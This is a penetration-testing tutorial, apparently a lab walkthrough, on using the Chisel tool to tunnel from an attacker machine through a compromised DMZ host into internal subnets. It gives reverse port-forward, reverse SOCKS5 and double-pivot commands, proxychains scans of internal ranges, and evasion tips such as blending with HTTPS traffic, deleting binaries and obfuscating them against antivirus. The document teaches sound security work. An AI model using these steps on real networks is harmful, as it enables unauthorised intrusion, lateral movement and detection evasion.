Chisel is a fast TCP/UDP tunnelling tool that wraps all traffic inside an HTTP stream. It works on a **client/server model**: the server runs on your attacker machine, and the client runs on the compromised pivot host. No SSH daemon is needed — just a single binary, transferred and executed.

This makes Chisel ideal when SSH is blocked but outbound HTTP on port 80 or 443 is permitted. Traffic blends in with normal web activity, and adding TLS makes it indistinguishable from HTTPS.

### Why Chisel?

| Feature            | Chisel         | SSH Tunnel     | Ligolo-ng       |
| ------------------ | -------------- | -------------- | --------------- |
| Needs SSH daemon   | No             | Yes            | No              |
| Transport          | HTTP (TLS opt) | SSH            | mTLS            |
| SOCKS5 proxy       | Yes            | Yes (`-D`)     | Via proxychains |
| Native routing     | No             | No             | Yes (TUN)       |
| Windows binary     | Yes            | Rarely         | Yes             |

Use Chisel when you need a SOCKS5 proxy or targeted port forward and SSH is off the table.

### How Chisel Tunnels Work

This is the single most important concept. Every decision about which mode to use comes down to one rule:

> **The machine that has a route to the target must be the one that makes the outbound connection through the tunnel.**

In almost every real engagement, the attacker runs the Chisel server and the pivot host (client) is the one inside the target network. That means the pivot (client) is the machine that must connect to internal targets — which means **reverse tunnels (`R:`) are the correct choice** whenever the server (attacker) cannot route to the target.

| Mode | Connection Initiator | Listener Created On | Who Connects to Target | Primary Use Case |
| ---- | -------------------- | ------------------- | ---------------------- | ---------------- |
| Normal (no `R:`) | Client → Server | **Client** | **Server** | Server has a route to the target |
| Reverse (`R:`) | Client → Server | **Server** | **Client** | Client (pivot) has a route to the target |
| Reverse SOCKS (`R:socks`) | Client → Server | **Server** (SOCKS5) | **Client** (per request) | Full network pivot via client's network |

**In our lab topology**, the attacker (server) has no route to `10.10.10.0/24` or `10.10.20.0/24`. Web DMZ (client) can reach both. Therefore: all port forwards targeting internal hosts require `R:` (reverse mode).

### TL;DR

**Reverse Port Forward** — open a port on the attacker that reaches a single internal service, forwarded by the pivot:
```bash
# Attacker (--reverse required)
./chisel server --port 8080 --reverse

# Web DMZ (client)
./chisel client 192.168.1.10:8080 R:8000:10.10.10.200:80

# Access from attacker
curl http://localhost:8000
```

**Reverse SOCKS5** — route all traffic through the pivot's network:
```bash
# Attacker
./chisel server --port 8080 --reverse --socks5

# Web DMZ
./chisel client 192.168.1.10:8080 R:socks

# /etc/proxychains.conf → socks5 127.0.0.1 1080
```

**Normal (Forward) Tunnel** — listener opens on the client (pivot), server connects to target. Only valid when the server can reach the target:
```bash
# Only use this when the server has a route to the target
./chisel server --port 8080
./chisel client SERVER_IP:8080 8000:RHOST:RPORT
# Port 8000 opens on the CLIENT (pivot), not the server
```

### Download and Installation

Download the appropriate binary from the official GitHub releases: https://github.com/jpillora/chisel/releases

```bash
# Attacker (Linux)
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz && mv chisel_1.9.1_linux_amd64 chisel && chmod +x chisel
```

For Windows targets, download `chisel_windows_amd64.gz`, extract it, and transfer `chisel.exe` to the target via certutil, curl, or PowerShell `Invoke-WebRequest`.

> [!NOTE]
> Chisel is a single statically-linked binary — no dependencies, no install needed. Transfer it, run it, done.



### Lab Topology

| Host             | Primary IP    | Secondary IP  | Open Ports       | Role           |
| ---------------- | ------------- | ------------- | ---------------- | -------------- |
| Attacker (Kali)  | 192.168.1.10  | N/A           | N/A              | Attack Box     |
| Web DMZ          | 192.168.1.20  | 10.10.10.100  | 80 , 8401 (local)| Jump Host      |
| Admin Mgmt       | 10.10.10.200  | 10.10.20.100  | 80               | Internal Host  |
| Internal File srv| 10.10.20.200  | 10.10.30.100  | 80, 445          | Internal Host  |

The attacker cannot reach `10.10.10.200` directly. Web DMZ is the pivot: it can reach both the attacker and the internal network. Chisel runs on the attacker (server) and on Web DMZ (client).


---

### Mode 1: Normal (Forward) Tunnel

**What it does:** Opens a listening port on the **client** (pivot). When something connects to that port, the traffic is sent through the tunnel to the **server**, which then connects to the target on behalf of the client.

**Mental model:** The client holds the door open locally; the server walks through it to reach the target.

**When to use it:** When the **server** (attacker) has a direct route to the target. This is the inverse of the typical red team scenario.

> [!NOTE]
> **This mode does NOT apply to our lab topology.** Web DMZ is the client and the attacker is the server. The attacker has no route to `10.10.10.0/24`. In forward mode, the server (attacker) would attempt to connect to `10.10.10.200:80` — an address it cannot reach. Every connection through the tunnel would fail immediately.
>
> Use this mode when you have flipped roles: chisel server on an internal pivot that can reach the target, chisel client on the attacker. In all other scenarios where the pivot holds network access, use `R:` (Mode 2).
>
> However, this limitation is purely due to role placement, not the tunnel type itself.
>
> If you flip the roles — running the Chisel server on Web DMZ (the pivot) and the client on the attacker — then forward mode becomes valid again:
>
> - Web DMZ (server) can reach `10.10.10.200:80`
> - The attacker connects to Web DMZ and requests the tunnel
> - Web DMZ completes the connection to the internal target
>
> In this configuration, forward tunnelling works because the machine responsible for connecting to the target (the server) has the required network access.
>
> **The constraint is not “forward vs reverse” — it is reachability.**
>
> In real-world environments, this role reversal is often impractical because it requires inbound connectivity to the pivot host, which is typically blocked by firewalls. This is why reverse tunnels (`R:`) remain the standard approach: they rely only on outbound connections from the compromised host.

#### Commands (forward tunnel — for reference)

**Server** (the machine that can directly reach the target)
In our scenario our target is **web@webDMZ | 192.168.1.20  | 10.10.10.100** presumably we got a reverse shell via it's public facing website on port 80
```bash
./chisel server --port 8080
```



**Client** (Our attacker box in this our Scenario)
The target has a **local port 8401 open** which can't be accessed directly from out attack box. and since it's local the TARGET_IP here is 127.0.0.1
```bash
./chisel client SERVER_IP:8080 8000:TARGET_IP:TARGET_PORT
```


Port `8000` opens on the **client machine = attack box**, not the server. The server connects to `TARGET_IP:TARGET_PORT`. Now we can access the service from our attack box.



---

### Mode 2: Reverse Tunnel (R: prefix)

**What it does:** Opens a listening port on the **server** (attacker). When something connects to that port, the traffic is sent through the tunnel to the **client** (pivot), which then connects to the target on behalf of the server.

**Mental model:** The server holds the door open; the client walks through it to reach the target.

**When to use it:** When the **client** (pivot) has a route to the target and the attacker does not. This is the correct mode for virtually every real pivoting scenario where the attacker is outside the segmented network.

> [!NOTE]
> **`--reverse` is required on the server.** Without it, the server refuses client-initiated listeners and the tunnel silently fails to establish the port binding.

#### Step 1: Start the Chisel Server on the Attacker

```bash
./chisel server --port 8080 --reverse
```

`--reverse` tells the server to allow clients to open listening ports on it.



#### Step 2: Run the Chisel Client on Web DMZ

```bash
./chisel client 192.168.1.10:8080 R:8000:10.10.10.200:80
```

Breaking this down:
- `192.168.1.10:8080` — attacker's chisel server
- `R:` — reverse tunnel; the listener will open on the **server** (attacker), not the client
- `8000` — port that opens on the **attacker** at `localhost:8000`
- `10.10.10.200:80` — where Web DMZ (client) will connect to on behalf of incoming traffic


On the server we can see `2026/03/26 18:13:23 server: session#1: tun: proxy#R:8000=>10.10.10.200:80: Listening`

**Result:** Any connection to `localhost:8000` on the attacker is forwarded through the tunnel to Web DMZ, and Web DMZ connects to `10.10.10.200:80`. The internal service sees the connection originating from Web DMZ's internal IP (`10.10.10.100`).

#### Step 3: Access the Internal Service

```bash
# From the attacker — port 8000 is local to the attacker
curl http://localhost:8000
```


> [!TIP]
> Stack multiple reverse tunnels in one command:
> `./chisel client 192.168.1.10:8080 R:8000:10.10.10.200:80 R:3389:10.10.10.200:3389`

---

### Mode 3: Reverse SOCKS5 (Full Network Pivot)

**What it does:** Instead of targeting a single service, this creates a SOCKS5 proxy on the attacker. Any tool wrapped in `proxychains` (or with native SOCKS5 support) can now reach the entire internal network through the pivot. One setup, every host.

**When to use it:** You want full reconnaissance across a subnet — scanning, accessing multiple services, lateral movement — without configuring individual port forwards per service.

#### Step 1: Start the Chisel Server on the Attacker

```bash
./chisel server --port 8080 --reverse --socks5
```

- `--reverse` — allows the client to open reverse tunnels on the server
- `--socks5` — enables SOCKS5 proxy mode; a SOCKS5 listener will appear on port 1080


#### Step 2: Run the Chisel Client on Web DMZ

```bash
./chisel client 192.168.1.10:8080 R:socks
```

`R:socks` tells the client to set up a reverse SOCKS5 tunnel back to the server.



#### Step 3: Configure Proxychains on the Attacker

Edit `/etc/proxychains.conf` (or `/etc/proxychains4.conf`):

```
[ProxyList]
socks5 127.0.0.1 1080
```

#### Step 4: Scan and Access the Internal Network

```bash
proxychains nmap -sT -Pn 10.10.10.0/24
proxychains curl http://10.10.10.200
proxychains ssh bella@10.10.10.200
```

> [!NOTE]
> Always use `nmap -sT` (TCP connect scan) through a SOCKS proxy — SYN scans require raw sockets and cannot be proxied.



---

### Double Pivoting (Chaining Through a Second Hop)

You've reached `10.10.10.200` (Admin Mgmt) via the reverse SOCKS5 tunnel through Web DMZ. Now you need to pivot deeper into `10.10.20.0/24` — a subnet only Admin Mgmt can reach. Admin Mgmt becomes the second jump box.

**The constraint:** Admin Mgmt has no route to the attacker (`192.168.1.10`). It can only reach the `10.10.10.0/24` subnet — specifically Web DMZ's internal IP at `10.10.10.100`. So Admin Mgmt must connect to a listener on Web DMZ, not directly to the attacker.

**The strategy:** Run a second Chisel server on Web DMZ. Admin Mgmt connects to it with `R:socks`, creating a SOCKS5 proxy at `127.0.0.1:1080` on Web DMZ. Then expose that SOCKS5 port from Web DMZ back to the attacker using the existing first Chisel tunnel.

#### Step 1: Start a Second Chisel Server on Web DMZ

```bash
# On Web DMZ (10.10.10.100)
./chisel server --port 9090 --reverse --socks5
```

This second server provides a connection point for Admin Mgmt. It is separate from the first Chisel session (Web DMZ → Attacker).

#### Step 2: Connect Admin Mgmt to the Web DMZ Relay

Transfer the Chisel binary to Admin Mgmt (via your existing first-hop proxychains tunnel). Then run:

```bash
# On Admin Mgmt (10.10.20.100)
./chisel client 10.10.10.100:9090 R:socks
```

Admin Mgmt connects to Web DMZ's second Chisel server. `R:socks` creates a SOCKS5 proxy at `127.0.0.1:1080` on Web DMZ.

#### Step 3: Expose Web DMZ's Second SOCKS Port Back to the Attacker

Web DMZ's SOCKS5 proxy (from Admin Mgmt's tunnel) now lives at `127.0.0.1:1080` on Web DMZ. You need to forward this to the attacker.

> [!NOTE]
> You cannot add a new tunnel to an already-running `chisel client` process. Chisel tunnels are defined at startup. To add the second relay, **start a new `chisel client` process** on Web DMZ pointing at the attacker's existing server. Multiple client sessions can connect to the same server simultaneously.

```bash
# On Web DMZ — new chisel client session (leave the first one running)
./chisel client 192.168.1.10:8080 R:1081:127.0.0.1:1080
```

This opens port `1081` on the attacker. Connecting to `localhost:1081` on the attacker hits Web DMZ's SOCKS5 proxy, which tunnels through to Admin Mgmt and reaches `10.10.20.0/24`.

#### Step 4: Configure a Second Proxychains Profile on the Attacker

Create `proxychains_hop2.conf`:

`─$ cp /etc/proxychains4.conf ./proxychains_hop2.conf`
```
[ProxyList]
socks5 127.0.0.1 1081
```



#### Step 5: Reach the Third Network

```bash
proxychains -f ./proxychains_hop2.conf nmap -sT -Pn 10.10.20.0/24
proxychains -f ./proxychains_hop2.conf curl http://10.10.20.200
```

#### Firefox Socks5 Configs and SSH access




Connecting via SSH


Traffic flows: Attacker → `localhost:1081` → Web DMZ SOCKS5 proxy → Admin Mgmt → `10.10.20.200`.

> [!NOTE]
> Double pivoting with Chisel chains tunnels through HTTP — each hop adds latency and complexity. For environments with three or more network segments, Ligolo-ng handles multi-hop pivoting significantly more cleanly via native TUN routing with no proxychains stacks required.


---

### Common Pitfalls

**Using forward mode when the server cannot reach the target.**  
If the attacker is the server and has no route to the internal network, forward tunnels (no `R:`) will establish without error but every connection attempt through them will fail. The tunnel appears active. Traffic silently dies at the server side. Always verify which machine has a route to the target before choosing a mode.

**Testing tunnels from the wrong machine.**  
In reverse mode, the listener is on the server (attacker). You must test from the attacker with `curl http://localhost:PORT`. Attempting to curl the attacker IP from Web DMZ or an external host will not work — the listener binds to `127.0.0.1` by default, not `0.0.0.0`.

**Assuming a successful tunnel means the target service is reachable.**  
Chisel establishes the tunnel regardless of whether the target service is running. A clean connection in the Chisel log only means the TCP tunnel is up. If `curl http://localhost:8000` returns connection refused or times out, verify the target service is actually listening: test directly from Web DMZ with `curl http://10.10.10.200:80`.

**Forgetting `--reverse` on the server.**  
Without `--reverse`, the server will reject any `R:` tunnel requests from the client. The client will connect and appear active, but no listener opens on the server. This is a silent failure — no explicit error is printed in all versions.

**Trying to dynamically add tunnels to a running Chisel client.**  
Tunnels are fixed at the time of the `chisel client` invocation. There is no hot-add capability. If you need a new tunnel on an existing session, either restart the client with all tunnels combined, or start a new `chisel client` process alongside the existing one — multiple sessions to the same server are supported.

**Port collisions on the attacker.**  
If you run `R:socks` twice (two Chisel sessions), both default to port 1080. The second will silently fail to bind. Specify explicit ports: `R:1080:socks` for the first hop and `R:1081:socks` (or `R:1081:127.0.0.1:1080`) for subsequent hops.

---

### Operational Security Notes

- Run your Chisel server on port **80 or 443** to blend with normal HTTP/HTTPS traffic.
- Add TLS with `--tls-key` and `--tls-cert` — without it, data inside the HTTP stream is unencrypted.
- Long-lived Chisel connections appear in `netstat` on the pivot host as persistent outbound TCP. On monitored environments, this may trigger alerting.
- Remove the Chisel binary from the target after use to minimize disk artifacts.

### Troubleshooting

**Client cannot connect:** Test reachability first — `curl http://ATTACKER_IP:8080` from the pivot. Verify no firewall is blocking the port.

**SOCKS proxy port already in use:** Override the default 1080: change `R:socks` to `R:1081:socks` on the client and update proxychains accordingly.

**Connections hang through proxychains:** Check you are using `-sT` for nmap, not SYN scans. Verify the proxychains port matches.

**Binary won't execute on Windows:** Architecture mismatch (amd64 vs 386) or AV detection. Obfuscate the binary or use an alternative delivery method.

### Quick Reference

| Mode                  | Attacker (Server)                                          | Pivot (Client)                                   | Listener On |
| --------------------- | ---------------------------------------------------------- | ------------------------------------------------ | ----------- |
| Normal (forward)      | `./chisel server --port 8080`                              | `./chisel client IP:8080 LPORT:RHOST:RPORT`      | **Client**  |
| Reverse port forward  | `./chisel server --port 8080 --reverse`                    | `./chisel client IP:8080 R:LPORT:RHOST:RPORT`    | **Server**  |
| Reverse SOCKS5        | `./chisel server --port 8080 --reverse --socks5`           | `./chisel client IP:8080 R:socks`                | **Server**  |

### When to Use Chisel vs Alternatives

Use **Chisel** when: SSH is unavailable, outbound HTTP is permitted, you need SOCKS5 or targeted port forwards, and deploying a single binary is feasible.

Use **SSH `-D`** when: SSH is available and you just need a quick SOCKS proxy.

Use **Ligolo-ng** when: You need full native routing (no proxychains), multi-hop pivoting across several segments, or a cleaner double-pivot setup.
